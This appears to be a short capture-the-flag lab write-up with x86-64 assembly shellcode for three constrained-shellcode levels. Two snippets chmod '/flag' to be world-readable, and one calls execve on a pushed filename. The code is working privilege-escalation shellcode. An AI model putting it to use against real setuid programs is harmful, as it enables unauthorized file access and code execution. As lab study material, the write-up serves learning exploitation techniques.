 
### 10 - Bubblesort

not sure what is sorted? the bytes? the assembly instructions?

Tried with 
```
  GNU nano 4.8                                                                                                                shellcode.s                                                                                                                           
.global _start_
_start:
.intel_syntax noprefix
        mov rax, 0x5a
        mov rsi, 4
        lea rdi, [rip+flag]
        syscall
flag:
        .string "/flag"
```

It worked! Not really sure what was sorted though!

### 12 - unique bytes only!

tricky one!
```
  GNU nano 4.8                                                                                                       shellcode.s                                                                                                                  
.global _start
_start:
.intel_syntax noprefix
        mov al, 0x5a
        xor esi, esi
        add sil, 4  
        push 0x67616c66
        mov rdi, rsp
        syscall
```

### 13 - 12 bytes only!


global _start
_start:
.intel_syntax noprefix
        mov al, 0x3b
        push rax
        mov rdi, rsp 
        xor esi, esi
        xor edx, edx
        syscall
